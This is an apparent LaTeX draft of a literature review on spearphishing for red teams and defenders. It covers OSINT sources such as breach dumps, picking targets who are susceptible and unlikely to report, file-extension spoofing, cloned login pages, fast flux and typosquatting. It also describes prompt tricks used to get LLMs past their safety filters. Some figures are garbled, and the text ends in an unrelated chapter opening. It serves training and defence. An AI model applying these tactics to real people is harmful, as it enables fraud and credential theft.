    \item \textbf{Search 1 (Scopus, literature reviews and surveys)}
    \begin{itemize}
        \item 128 articles identified
        \item 38 articles read
        \item 90 excluded (e.g., focused solely on defenses, unrelated to phishing, inaccessible, or improper languages)
    \end{itemize}
\item \textbf{Search 2 (Scopus, primary spearphishing research)}
\begin{itemize}
    \item 236 articles identified
    \item 39 articles read
\end{itemize}
\item \textbf{Search 3 (Google Scholar, AI-generated phishing)}
\begin{itemize}
    \item 1060 results
    \item First 50 scanned
    \item 12 relevant articles read
\end{itemize}
\end{itemize}

Additional relevant articles were found using Google dorks and snowballing (e.g., reviewing references in included articles. In total, 133 articles were used to extract techniques, context elements, and relevant conclusions.
\begin{figure}
    
\includegraphics[width=0.75\linewidth]{spearphishing-techniques.png}
    \caption{Figure 4.1: Categorizations of spearphishing techniques and attack context elements within scope discussed in the literature Caption}
    \label{fig:placeholder}
\end{figure}
The figure above summarizes the categorization of spearphishing techniques and attack context elements found across the literature, based on the scoped phases of the spearphishing attack process methodology.

The results are organized into two main parts:
1. 4.1.1: Spearphishing techniques
2. 4.2.1: Attack context elements
Each section begins with a summary table of identified items, followed by discussion.

\subsection{Spearphishing Techniques}
Most techniques found in the literature could be clearly mapped to one of the five scoped stages of the spearphishing process: selecting targets, gathering OSINT, creating artifacts, crafting messages, and distributing the attack.

\subsection{Cross-Cutting Technologies}
Two techniques stood out as especially important because they span multiple stages of the spearphishing attack process:
\textbf{1. Structured Methodologies for Red Teamers}
A structured spearphishing attack methodology aims to provide a step-by-step guide through target selection, OSINT gathering, and message creation. The goal is to help less experienced Red Teamers run more effective simulations. While not a novel technique in and of itself, the structural approach to combining methods across steps is valuable for operational consistency and training.
\textbf{2. Phishing Tools and Automation Kits}
Tools like \textbf{Gophish, King Phisher,} and \textbf{SPToolkit} automate large portions of the phishing process, such as:
\begin{itemize}
    \item Cloning full websites
    \item Customizing and tailoring phishing emails targeted at specific identified target individuals
    \item Capturing user interactions (e.g., clicks, credentials)
\end{itemize}
These tools significantly reduce setup time and increase scalability, making them especially relevant for Red Teams and defenders simulating persistent threats.

 \subsection{Methods to Gather OSINT}

\textbf{1. Technique:}
\begin{itemize}
    \item Gather a high quantities of information
\end{itemize}
\textbf{2. What Information to Gather:}
\begin{itemize}
    \item Collect a broad profile of the target to identify exploitable traits, affiliations, and behaviors
\textbf{3. Where to Look (Online Resources)}
    \item Google, Bing, Hunter.io, Pipl.com, BeenVerified, IntelX
\end{itemize}

\textbf{1. Technique:}
\begin{itemize}
    \item Search for specific information

\end{itemize}
\textbf{2. What Information to Gather:}
\begin{itemize}
    \item Job titles, contact details, addresses, calendar links, contacts list, internal lingo, personal interests
\end{itemize}
\textbf{3. Where to Look (Online Resources)}
\begin{itemize}
    \item LinkedIn, ZoomInfo, RocketReach, GitHub, Reddit, Company blogs, Facebook
\end{itemize}

\subsection{How to Search for OSINT}
\textbf{1. Technique:}
\begin{itemize}
    \item Use OSINT tools and automate and structure collections from multiple sources
\textbf{2. Tools Used:}
\item Maltego, SpiderFoot, Recon-ng, Shodan, FOCA, Datasploit
    \end{itemize}

\textbf{1. Technique:}
\begin{itemize}
    \item     Use a VPN (Virtual Private Network) to cloak source location and bypass geo-restrictions
\textbf{2. Tools Used:}
\item NordVPN, ProtonVPN, Mullvad
    \end{itemize}

\textbf{1. Technique:} 
\begin{itemize}
    \item Use a Large Language Model (LLM) to extract, summarize, or generate intelligence using open-text sources
\textbf{2. Tools Used:}
\item ChatGPT, Claude, Perplexity.ai (used on data scraped via OSINT)
    \end{itemize}

\subsubsection{Where to Search for OSINT}

\textbf{Social Media Platforms:}
\begin{itemize}
    \item Personal information, photos, behaviors, activity patterns
\textbf{Where to Look:}
\item LinkedIn, Twitter / X, Facebook, Instagram, Snapchat, TikTok, Mastodon, open directories
    \end{itemize}

\textbf{Corporate Websites:}
\begin{itemize}
    \item Employee directories, press releases, organizational changes
\textbf{Where to Look:}
\item Company official websites and homepages, press pages, investor relations section, open directories
    \end{itemize}

\textbf{Other Public Sources:}
\begin{itemize}
    \item External appearances, blogs, event attendance, dev activity
\textbf{Where to Look:}
\item GitHub, Medium, Substack, Stack Overflow, Eventbrite, SlideShare, open directories
    \end{itemize}

\textbf{Data from Breaches (pastebins and dumpsites):}
\begin{itemize}
    \item Leaked passwords, internal communications, emails
\textbf{Where to Look:}
\item HaveIBeenPwned, DeHashed, BreachForum (dark web), Leak-Lookup
    \end{itemize}

\textbf{Physical Location Information:}
\begin{itemize}
    \item Physical access points, schedules, printed materials
\textbf{Where to Look:}
\item Google Maps, Street View, Yelp, LinkedIn events, IRL ("In-Real-Life") physical recon
    \end{itemize}

OSINT Gathering: Practical Techniques and Red Team Applications
Gathering OSINT is a foundational step in identifying attack context elements for spearphishing. Evidence shows that the amount and type of information collected can significantly impact the success and outcome of a planned and targeted attack. In a role-playing study, it was found that participants who received more detailed information about their targets wrote spearphishing emails that were nearly three times more effective than those who received minimal information. While high-volume data collection is time-consuming, it becomes especially valuable in whaling attacks-targeting high-value individuals such as executives-where attackers often analyze not only the target but also their social and professional networks.

Red Teams can also benefit from collecting specific types of information to tailor attacks. For example, impersonating a colleague or crafting malware tailored to the software a target uses reqiures highly specific OSINT; however, the literature also shows diminishing returns in some cases, such as no significant difference in susceptibility between messages personalized with only demographic data and those using a deeper context like personal interests or professional background.

To gather OSINT efficiently, various tools are available at your disposal. General-purpose frameworks like \textbf{Maltego}, \textbf{theHarvester}, and \textbf{Metagoofill} automate broad data collections while more targeted tools like \textbf{Truecaller} help retrieve personal contact information from phone numbers, and cross-linked scrapes social media profiles. \textbf{IntelliSpect} is another tool designed to combat multiple OSINT capabilities. Given that OSINT activities can raise detection flags, attackers often use VPNs to remain anonymous during collection efforts and phases. Alternatively, Large Language Models (LLMs) can assist in summarizing publicly available content or answering queries about a target's digital presence and its environment.

OSINT sources can be grouped into several categories. Social media platforms are especially rich in data-often public, persistent, and under-monitored. Beyond basic details like name, role, and education, researchers have shown that social platforms can reveal implicit attributes, such as a target's personality type, social habits, and emotional tone. Social data can even be aggregated to infer birthdays, educational history, or organizational trends, such as staff turnover.

Organizational websites also provide high-valued data, including employee directories, job titles, roles and responsibilities, and company news. Even overlooked elements-such as metadata from uploaded files or developer comments embedded in HTML-can offer clues for crafting convincing phishing content. References to recent internal events (e.g., town halls or product launches) can further increase message credibility.

In addition, public infrastructure data can be leveraged. \texttt{WHOIS/RWHOIS} databases provide information on domain ownership and network blocks, while platforms such as \textbf{Shodan}, Censys, \textbf{and} \textbf{ZoomEye} reveal exposed systems and IoT through active internet scanning. Attackers may also use \textit{Google Dorking} to uncover unsecured devices or forgotten web pages, and services like the Internet Archive to access cached versions of pages that have since been removed or restricted.

Data breach repositories represent another critical OSINT source. Sites like Have I Been Pwned? expose leaked credentials, internal emails, and organizational structure from past breaches. Lastly, physical reconnaissance still plays a huge role. Attackers may choose to visit company sites to gather physical OSINT-from visible screens to discarded documents or badge access points-highlighting that the threat landscape extends beyond digital domains.

For Red Teams, effectively applying these OSINT methods enables more authentic, targeted spearphishing campaigns. They key is balancing the breadth of data with relevance, ensuring every piece of gathered intelligence directly contributes to the plausibility and impact of the simulated spearphishing attack.

The next subsection will discuss the context elements that influence target selection and implementation.

\subsection{Target Selection Techniques and Their Application in Red Team Spearphishing Campaigns}
Selecting the right targets is a critical component of a successful spearphishing campaign, and the literature offers several strategies defenders can apply. Each method aligns with different attacker goals-ranging from maximizing effectiveness to minimizing detection risk.

One approach is to prioritize targets whose relationships and technical environments are already known.  Knowing a target's colleagues or commonly used software allows attackers to impersonate trusted individuals or craft malware tailored to known platforms. Access to more information results in more persuasive spearphishing emails, supporting the value of high-volume OSINT for target selection.

Another widely used strategy is to select targets based on their relevance to attack objectives. This becomes especially important in whaling attacks, where attackers focus on high-value individuals such as senior executives. These individuals often control or access privileged systems and sensitive data, justifying the greater effort required to craft tailored messages.

Red teams can also benefit from selecting targets based on susceptibility to phishing. The literature identifies multiple factors that affect how likely a person is to fall for an attack:

Job roles and habits: Roles involving frequent external communication increase susceptibility, especially when the phishing message mimics a normal interaction pattern. If opening emails or clicking links is a routine task, users are more likely to do so reflexively.
Seniority and experience: Junior employees are found to be more vulnerable than senior staff, possibly due to less familiarity with internal communication norms or lower exposure to phishing training and awareness.
Psychological state: Temporary factors such as mood can influence susceptibility. For example, people in a happy emotional state are more prone to phishing than those in neutral or sad moods.
Technical aptitude, confidence, and experience: Users with higher self-efficacy, more web experience, and better security knowledge are generally less likely to be deceived.
Training history: Prior exposure to simulated or real phishing attacks reduces a person's likelihood of falling for future attempts.

While many characteristics correlate with susceptibility, the literature also shows mixed or contradictory findings for some:

Workload: Higher workload can increase susceptibility, but may also lead to ignoring the phishing message entirely.
Education: Some studies find lower education levels correlate with higher risk, but others find no significant relationship.
Culture: Cultural dimensions such as power distance can affect susceptibility. In cultures where people are more deferential to authority, phishing that impersonates individuals of authority may be more effective; however, trust and cultural traits do not show consistent effects across all studies.
Personality traits: Traits like extraversion and conscientiousness have been linked to increased susceptibility, though again, findings are inconsistent across studies.
Gender and age: There is no clear consensus. Some studies report women to be more susceptible, while others find no difference. Age-related findings also vary: some studies show younger users are more susceptible, others find older users to be at a higher risk, and some report no clear correlation at all.

In addition to susceptibility, likelihood to report a phishing attempt is another useful filter for Red Teams. Selecting targets who are less likely to report the attempt can increase campaign success. Individuals with a higher self-efficacy and cybersecurity awareness are more likely to report phishing attempts, and studies show that individuals with high altruism and perceived social responsibilities (subjective norms) also report more often than not.

By incorporating factors-susceptibility, likelihood of reporting, and alignment with objectives-Red Teams can more effectively simulate realistic adversarial behaviors and test organizational resilience. These selection strategies allow for smarter targeting, especially in high-stakes or limited-scoped environments like executive phishing simulations.

\subsection{Target Selection: What Defenders Should Know}
Understanding how attackers-or Red Teams acting in their place-select targets is critical for strengthening an organization's resiliency and defense strategy. The literature outlines a range of techniques used to identify vulnerable individuals, and knowing these can help defenders both improve awareness training efforts and design more effective internal testing.

One common method is selecting targets whose workplace relationships and technologies are already exposed online. If an attacker knows who a target collaborates with or what software they use, they can craft more credible phishing lures, for example, impersonating a coworker or sending a malicious file disguised as a shared document. In this context, defenders should be especially aware of information leakage through social media, job postings, and publicly available documents of interest.

Attackers also prioritize targets for whom large amounts of information are available. Individuals who craft phishing emails using rich target data produced messages that were significantly more convincing. Defenders should assume that anyone with a large digital footprint is a potential entry point and ensure such individuals receive enhanced awareness training.

Another key insight is that target selection often aligns with attacker objectives. In high-effort campaigns-such as whaling attacks- attackers focus on those with access to privileged systems or sensitive data, such as executives and department heads. Organizations should recognize that the most senior individuals may be among the most attractive targets and ensure they are not exempt from security training or monitoring.

In addition to strategic value, attackers often choose individuals based on susceptibility to phishing. This includes psychological, behavioral, and role-based factors. For instance:
\begin{itemize}
    \item People in roles that involve frequent external communication (e.g., HR, finance, or sales) are often more exposed and more accustomed to opening emails and attachments.
    \item Routine behaviors-such as habitually checking emails-can make employees more vulnerable.
    \item Junior employees may be less familiar with internal communications processes, patterns, or phishing awareness programs, making them easier to deceive.
\end{itemize}

Defensive teams should also be aware that susceptibility is influenced by factors like technical confidence, security training, and even emotional state. People with lower computer self-efficacy or little security experience are generally more vulnerable, while mood can also play a role-those in a positive emotional state may let their guard down more easily.

The literature, however, presents mixed findings on attributes such as education, age, and gender. While some studies find lower education correlates with higher susceptibility, others find no link. Similarly, while some research suggest younger adults are more vulnerable, others find that older employees or those with heavy workloads are more likely to fall for a phishing attack. Cultural traits like deference to authority or trust can also have an influence in certain regions or organizations.

As stated previously, one often overlooked factor in target selection is the likelihood that someone will report a phishing attempt. Some employees are more proactive when it comes to reporting suspicious messages-especially those with higher self-efficacy, a strong security mindset, or a sense of social responsibility. From a defensive standpoint, this means employees who are less likely to report could represent both a detection blind spot and a greater risk if compromised.

Taken together, these insights suggest defenders should not apply a one-size-fits-all model for phishing awareness. Instead, security programs should:
\begin{itemize}
    \item Tailor security awareness training based on roles and digital exposure
    \item Monitor for high-risk behaviors and exposure
    \item Ensure senior leaders are included in security awareness and simulated exercises
    \item Evaluate employee likelihood to report phishing as part of incident response readiness efforts
\end{itemize}

By understanding how attackers choose their targets, defenders can better anticipate adversarial behaviors, design smarter awareness campaigns, and improve the realism and effectiveness of internal Red Team simulations.

\section{Crafting Malicious Files: Defensive Implications}
From a defender's view, understanding how attackers create malicious files helps in both anticipating real-world threats and improving internal Red Team simulations. One common method is manipulating the appearance of file types to make them appear harmless. For example, attackers may change the icon of an executable (EXE) file to resemble a Word document, image, or PDF, misleading users into trusting and opening it. Similarly, attackers can use file extension spoofing, like the right-to-left override technique, to make dangerous files appear benign (e.g., "\texttt{.exe}" rendered as "\texttt{.doc}").

The choice of file type also plays a critical role. Office documents with macros, even to this day, remain one of the most frequently abused formats, as they can execute code when opened and are widely used in corporate environments. PDFs are another commonly exploited format due to their ubiquity and the relative ease with which they can be spoofed or weaponized. Other techniques involve compressing executable files inside ZIP archives and asking users to unzip and run them, or attaching malicious HTML files that use auto-redirects (e.g.,  via the meta-refresh tag) to take targets and redirect them to fraudulent phishing websites. It has been noted that HTML attachments can be even more effective than placing a suspicious-looking link directly in the email.

Defenders should ensure their secure email gateways, EDR solutions, and user security awareness programs are equipped to detect and flag such techniques. Particularly, users should be trained to distrust unexpected attachments-especially from unknown senders-and systems should monitor for suspicious file behaviors such as macro execution or unexpected outbound traffic after file interaction.

\subsection{Crafting Phishing Websites: Defensive Implications}
Malicious websites are not just for credential theft; they are often designed to add legitimacy to the overall phishing narrative. For example, attackers may clone or fabricate websites tied to fake companies, especially if the phishing message refers to them as partners, vendors, or clients. Using a tool like \textbf{HTTrack}, attackers can clone a real corporate site with subtle changes to create such a ruse.

Cloning logon pages of the target's actual organization is another common tactic, especially when the goal is to steal credentials. Attackers frequently use phishing frameworks or tools like Gophish or King Phisher to achieve this. Recent work also shows how attackers use LLMs to help create phishing sites by prompting them to generate cleaned-up, stripped-down clones of login pages that exclude detection-prone elements.

For defenders, this highlights the importance of continuously monitoring for domain impersonation (especially "lookalike" domains), deploying anti-phishing protections like DMARC, and conducting regular Red Team simulations that include cloned login pages to increase realism and believability.

To evade detection, attackers often protect phishing sites in ways that make them harder to take down or identify/attribute. Hosting on the dark web is one strategy, as it hides critical metadata such as DNS and \texttt{WHOIS} records. Another technique is fast flux, where a domain's IP address rapidly changes, making it harder to denylist or detect in time. Fast flux can dramatically increase a phishing site's lifespan-from an average of 62 hours to over 190 hours. Though defenses against fast flux exist, such as network-based anomaly detection, they are not always universally implemented.

Finally, attackers may embed malicious logic or payloads in non-text elements such as images, Flash, scripts, or ActiveX objects. These bypass many detection methods based on textual or HTML structure analysis and raises the need for defenders to adopt more advanced detection system solutions that include visual similarity analysis and behavioral monitoring of websites accessed via internal networks.

\subsection{Creating Malicious Files: Attacker Perspective}
In targeted spearphishing campaigns, malicious file attachments are powerful tool to gain initial access, especially when crafted to bypass both technical defenses and user suspicions. One widely used tactic is to manipulate how the file appears to their victim. This includes changing the file icon to mimic a more trustworthy format. Beyond visual deception, attackers often apply file extension spoofing by using the right-to-left override techniques to make dangerous files appear benign in file explorers or email clients.

Choosing the right file type to exploit is critical. Office documents with enabled macros are a go-to method, given that they are commonly used in corporate communications and can execute embedded scripts when opened. PDFs are another prime target: they are universally accepted and can be weaponized easily. Some attackers also deliver zipped EXE files to encourage victims to extract and run them, taking advantage of lax content filtering. A more covert approach involves attaching HTML files that auto-redirect uses to malicious websites via the meta-refresh tag-often outperforming direct URL placement in fraudulent emails.

These techniques are chosen not only for their success rates but also based on the target organization's defensive posture. If standard file types like .exe are likely to be flagged or blocked, attackers can pivot to formats that appear more legitimate. Tools used to create these payloads are often customized and tested against sandboxed environments ensuring delivery and execution.

\subsection{Creating Phishing Websites: Attacker Perspective}
Malicious websites serve a dual role in spearphishing: they capture credentials or deploy payloads, and they lend credibility to the phishing narrative. A common tactic is cloning the website of a real or fabricated organization. For instance , an attacker might clone the website of a well-known supplier, tweak the branding slightly, and present it as a legitimate partner referenced in the phishing message.

Cloning the target organization's actual login page is another high-yielding tactic, particularly when aiming for credential harvesting. This can be done using tools like HTTrack, or integrated features in phishing kits such as Gophish or King Phisher. To avoid copying defensive artifacts or unwanted JavaScript, some attackers can use LLMs to assist in selectively replicating relevant components of a website while cleaning up potentially revealing details.

To increase the lifespan and resilience of phishing infratructures, attackers can deploy a number of defensive evasion techniques. Hosting on the dark web helps to hide DNS records, HTTPS certificates, and other metadata commonly used in domain reputation systems. Another method, as explained above is \textbf{fast flux}, where the phishing domain's IP address rotates frequently to avoid detection and denylisting-extending a phishing site's lifetime from just over 2 days to more than 8 days on average. Attackers may also embed content (such as images or scripts) rather than using static text or HTML, which can help evade signature-based and ML-based phishing detection systems.

Ultimately, attackers tailor these website creation strategies to the specific context of the spearphishing campaign-factoring in target profile and dossier, organizational defenses, and the sophistication level of the payload delivery. Incorporating these techniques helps maintain stealth, maximize believability, and achieve initial objectives faster in Red Team operations or in real-world attacks.

\subsection{Acquiring a Phishing Domain}
To increase the realism of phishing campaigns, attackers often acquire domain names that closely resemble legitimate ones. A common tactic is \textbf{typosquatting}, which involves small alterations to the official domain name—such as omitting characters (\verb|wwwexample.com|), swapping letters (\verb|www.examlpe.com|), substituting characters (\verb|www.examp1e.com|), duplicating characters (\verb|www.exaample.com|), or using hyphens (\verb|www-example.com|). These variants can deceive users with minimal scrutiny. Tools like \verb|dnstwist| help automate the generation of deceptive domain variants and quickly identify available ones to register for phishing use.

Attackers also leverage user trust in \textbf{HTTPS certificates}, even when issued to malicious domains and that users are more likely to click and interact with sites that display HTTPS—even when the domain name is suspicious—making it advantageous for attackers to obtain TLS certificates and serve phishing content over secure channels.

\subsubsection{Generating Spear Phishing Messages Automatically}

Automation can significantly scale and personalize spear phishing efforts. One of the simplest approaches is \textbf{template-based messaging}, where dynamic fields such as name, role, or department are populated using available target data. Tools such as Gophish support this level of customization.

More advanced methods use \textit{Natural Language Generation (NLG)} to produce semi-personalized content based on public data. This technique enables campaigns that fall somewhere between generic phishing and highly customized spear phishing, such as "community-targeted" phishing.

The emergence of \textbf{Large Language Models (LLMs)}—like ChatGPT—has opened new avenues for crafting convincing phishing emails. LLMs can generate emails in the tone and structure expected within a target's organizational or social context. Attackers use \textit{prompt engineering} to bypass ethical filters, applying techniques such as typos, string obfuscation, payload splitting, or creating fictional scenarios to get the model to output malicious content. Tools such as \textbf{PrompInject} even automate prompt injection strategies that manipulate LLM outputs for spear phishing or pretext generation.

\subsubsection{Crafting a Sender Identity}
Establishing a credible sender identity is a cornerstone of spear phishing success. One such approach is to \textit{impersonate someone known to the target}, such as a colleague, supervisor, or friend. Research has shown that targets are dramatically more likely to trust and act on messages that appear to come from familiar sources. Even in role-play experiments, impersonating a co-worker was up to 26 times more effective than impersonating a commercial brand.

Alternatively, impersonating \textit{someone unknown to the target} can be useful when contextually appropriate—such as a job applicant emailing HR with a fake CV.

Attackers employ various \textit{technical methods to spoof sender identity. }If access to a legitimate internal account is available (via prior compromise), \textit{internal spear phishing} or lateral movement can occur, leveraging existing trust and prior conversations. If not, attackers may use \textbf{email spoofing}, exploiting the lack of authentication in SMTP. Tools can check for protections like DMARC; if spoofing is blocked, attackers can fall back on \textbf{typosquatted domains} registered specifically for impersonation purposes. Even personal email accounts (e.g., Gmail) can be used with pretexts like “sent from iPhone” to justify unusual sending behavior.

In social media-driven campaigns, attackers often create fake or cloned profiles to establish trust and rapport with unsuspecting potential targets. These profiles can be built entirely from scratch or generated by duplicating an existing individual's account-reusing profile photos, employment information, and connections to mimic legitimacy-and hell, some dark web ChatGPT models can automatically generate one for you! All in all, this tactic is commonly referred to as \textit{"catfishing."}

A catfished profile is an online account created under a false identity, often using fabricated personal details and either fake or stolen photographs. Such profiles are used to deceive others, frequently for purposes such as financial fraud, romantic manipulation, or broader social engineering objectives. The term "catfishing" can refer both to the profile itself and to the act of creating and maintaining the fraudulent online persona.

You are probably wondering. \textit{"...well, what is the difference between a cloned site,a site that is using impersonation, and one that is a catfish?"}

Well, these three overlap in concept but differ in \textit{target, medium,} and \textit{intent}-in cybersecurity and social engineering they are considered distinct tactics. Let us examine this briefly.

\subsection{1. Cloned Site}
What it is:
A complete copy of a legitimate website, usually hosted on a different domain, designed to look and behave exactly like the original.
Goal:
Trick users into entering credentials, financial information, or other sensitive data (phishing) by exploiting trust in the original site's design.
Key Traits:
Replicates layout, branding images, and text of a legitimate site.
Often delivered via malicious links in emails, SMS (smishing), or social media.
May include typosquatting in the domain name (e.g., \texttt{paypa1.com} instead of \texttt{paypal.com}).
Example:
A fake banking portal that is visually identical to the real bank's site but sends entered credentials to an attacker-controlled server.

\subsection{2. Impersonation Site (or Brand Impersonation)}
What it is:
A site that does not necessarily clone the original in full or in its entirety but one that uses brand names, logos, trademarks, or corporate identity to appear affiliated with the real entity.
Goal:
Create a perception of legitimacy to sell fake products, distribute malware, collect leads, or mislead customers.
Key Traits:
May not be an exact copy-often a modified or partial information.
Relies on \textit{brand association} more than pixel-perfect replication.
Sometimes used in \textit{Business Email Compromise (BEC)} attacks and partner scams.
Example:
A site that sells counterfeit merchandise using a near-identical logo and color scheme of a popular sportswear brand.

\subsection{Catfish (Social Media Impersonation)}
What it is:
A fake social media profile built to impersonate a real person or create an entirely fictional identity. The term hails from romance scams but also applies to professional networking and espionage contexts.
Goal:
Build trust and rapport with individuals or groups to influence, defraud, extract information, or facilitate future cyberattacks (e.g., spearphishing).
Key Traits:
Focus is on the \textit{persona}, not a website.
May reuse stolen photos, work histories, and social connections.
Success depends on human trust rather than website traffic.
Example:
A LinkedIn profile claiming to be an executive at a real company, used to connect with employees and later send malicious job-related documents.

\subsection{Key Differences at a Glance}

\begin{table}
    \centering
    \begin{tabular}{cccc}
         Aspect&  Cloned Site&  Impersonation Site& Catfish (Social Media)\\
         Medium&  Website&  Website& Social media platform\\
         Accuracy&  Pixel-perfect copy&  Partial imitation / branding mimic& Mimics a person's online identity\\
         Primary Goal&  Credential theft / phishing&  Brand exploitation, fraud, malware& Social engineering, relationship building\\
         Delivery&  Links in emails, SMS, ads&  Search results, ads, targeted outreach& Connection requests, DMs\\
         Trust Vector&  Visual similarity to legit site&  Brand recognition& Personal trust and social proof\\
    \end{tabular}
    \caption{Caption}
    \label{tab:placeholder1}
\end{table}
\section{Red Team vs. Blue Team-Site \& Profile Impersonation Tactics}

\begin{table}
    \centering
    \begin{tabular}{ccc}
         Attack Type\&  Red Team (Attacker) \& Blue Team (Defender) Perspective\\
         Cloned Site\&  Creation: Use tools like HTTrack, wget, or custom scripts to copy HTML/CSS/JS from the legitimate site. Modify form actions to send credentials to an attacker-controlled backend.
Exploitation: Host on a lookalike domain (typosquatting or homoglyph attacks). Distribute via spearphishing or whaling campaigns, SMS, or malicious ads.
Evasion: Use HTTPS with free TLS certs (e.g., Let's Ecnrypt) to appear legitimate. Employ geofencing to limit visibility to target region.\& Detection: Monitor for typosquatted domains and suspicious SSL certificates using brand monitoring services (e.g., DNSTwist, PhishLabs).
Prevention: Implement DMARC, DKIM, and SPF to reduce phishing email success. Use user education campaigns to help staff identify mismatched domains.
Response: Submit DCMA takedown requests to hosting providers and domain registrars. Update web Content Security Policies (CSPs) to block external forms.\\
         Impersonation Site\&  Creation: Build a partial copy or a newly designed site that uses stolen brand assets (logos, fonts, color schemes). May host fake job listings, fake products, or malware downloads.
Exploitation: Leverage black hat SEO poisoning, malvertising, or email campaigns to drive traffic. May impersonate a partner portal or supplier login.
Evasion: Keep site content "similar enough" to avoid automated plagiarism detection. Use anonymized WHOIS info and offshore hosting using a "bullet-proof ISP."\& Detection: Use brand monitoring services to track misuse of trademarks and logos. Search for suspicious domains with partial matches (e.g., <brand>-secure.com).
Prevention: Register common domain variants to block attackers. Watermark key brand assets where feasible.
Response: Issue legal takedowns for IP / trademark violations. Coordinate with ad networks to block malvertising.\\
         Catfishing Profile\&  Creation: Set up a fake social media profile using stolen or AI-generated profile pictures, fabricated bios, and false employment / education / history. Connect with target's real contacts to build credibility and believability& \\
    \end{tabular}
    \caption{Caption}
    \label{tab:placeholder2}
\end{table}



\subsection{Methods to Personalize and Contextualize the Spearphishing Message}
Spearphishing relies heavily on crafting messages that appear natural and inconspicuous within the target's environment. Personalization and contextualization techniques aim to make the email blend into the recipient's context and appeal directly to their interests or expectations-factors shown to significantly affect success rates. It has been studied that messages aligned with the target's situational context reduce cognitive scrutiny, making deceltion indicators less noticeable.

The degree of personalization often correlates with the value of the target. Since tailoring messages demands time, effort, and resources, attackers weigh the level of targeting against the potential payoff. High-value campaigns, such as whaling, justify deep \textit{"hypercontextualization,"} where extensive information is gathered during reconnaissance and footprinting stages before composing the message. Inserting details such as the recipient's name, their organization, and a known sender identity increases click rates fivefold compared to generic emails, or sloppily-built messages.

Topic choice also influences susceptibility. Some themes have been categorized into \textit{"life domains"} and found legal-related topics as having had the highest success rate (6.7%), while finanical topics were the lowest at j1.1/%. Simply matching the toopic to the target's known interestes has produced the highest open rates-course registration emails reached 54.4/% compared to a 27.2/% average. A well-crafted subject line can further boost engagement, as in the 2011 RSA breach, where "2011 Recruitment Plan" was used to lure employees.

Interestingly, it has been studied that no significant difference in susceptibility between attacks personalized only with the demographic data and those incorporating broader personal / professional details; however, attackers with more background knowledge still wrote more effective messages, likely due to an enhanced "theory of mind"-the ability to anticipate the target's behaviors based on their thoughts and emotions.

\subsection{Methods to Shape the Language, Look, and Feel of the Message}
Language accuracy and style can reinforce authenticity. Higher success rates have been reported when attackers spoke the target's primary language, with a 1.76x improvement over non-native speakers. Grammatical correctness also matters, as poor writing is often used by recipients to detect phishing red flags. Style consistency with the impersonated sender's usual tone further boosts credibility and believability.

Visual design elements also play a role in that an attacker can include legitimate-looking company brand logos making emails harder to detect by the target. Some attackers replace the body text with inline images, bypassing text-based spam filters while maintaining a professional appearance.

\subsection{Methods to Incorporate Cognitive Exploits of Human Vulnerabilities}
More times than not, attackers often borrow from psychology, exploiting "human vulnerabilities," or "human hacking" much like attackers exploit system flaws. These cognitive exploits are drawn from frameworks like

 

















%\section{Psychological Exploitation of Social Engineering Attacks}
\label{intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head
\abstract{As cybersecurity tactics increasingly adapt to their environment, they introduce new complexities. In response, cybercriminals alter their attacks to be more elusive and discreet. Recent research underscores the prevalence of social engineering, in which cybercriminals manipulate the human element within an organization's security framework. Taking advantage of psychological traits, these attacks bypass technical defenses for nefarious purposes. Known as \textit{"human hacking"} or \textit{"hacking the human,"} social engineering represents a widespread tactic for targeting both individuals and organizations, often seen as an easier route compared to finding a technical vulnerability. These attacks are particularly difficult to counter because they lack consistent methodology, baselines, or patterns, making them incredibly potent and easy to disguise. Consequently, defenders must deepen their understanding of such attack techniques to effectively mitigate them. This chapter delves into the intricate methods employed in social engineering-based cyberattacks, examining how human vulnerabilities have been leveraged in recent breaches. Moreover, it explores current defensive strategies, including Machine Learning-based solutions, aimed at combating these attacks and protecting individuals.}

\begin{table}
    \justifying
\caption{Table 1: Summary of Topics Covered in Chapter}
\label{tab:placeholder}
    \begin{tabular}{cc}
         Section \& Summary\\
         Section 1: In this section, readers are introduced to the idea and workings of Social Engineering (SE) attacks. To highlight the importance of cyberattacks based on social engineering, some of the most recent and prominent attacks are presented.\\
         Section 2: This section covers the most common types of SE attacks and their prescribed methodologies.\\
         Section 3: In this section, methods of influence to exploit human vulnerabilities are discussed. This section also discusses the interrelated connections between SE attacks, methods of influence, human vulnerability exploitation, and how to counter SE attacks.\\
         Section 4: This section opens with the discussion of methods used to counter SE attacks providing readers with a deep understanding of the various countermeasures that can be used to combat these attacks, including some of the most prominent ML-based methods.\\
         Section 5: This final section raises concerns over recently proposed methods to counteract SE attacks emphasizing the need for a multidimensional approach to counter SE-based attacks and attack limitations.\\
    \end{tabular}
    
    
\end{table}


\subsection{Introduction}
"Our perimeter concerning human security is satisfactory. All employees participate in cybersecurity training periodically. How often, you ask? Well, annually, indeed, they undergo a one-hour session covering essential cyber hygiene practices. Additionally, the training addresses social engineering, specifically phishing and vishing threats. We are quite successful in these efforts."
While these dialogues typically occur within the protective confines of corporate conference rooms, there is a simultaneous exchange elsewhere—within clandestine online forums:
This is the detailed guide for executing my vishing strategy. The approach yields a success rate of 7 out of 10 instances. It is notably more effective when targeting small to medium-sized companies, as they typically lack comprehensive cybersecurity defenses. Prioritize ransomware attacks on organizations that possess cyber insurance; their lax attitude towards security results in faster payouts. Emphasize quality over quantity when identifying weak points. The sales team appears overwhelmed, making them an ideal initial target.
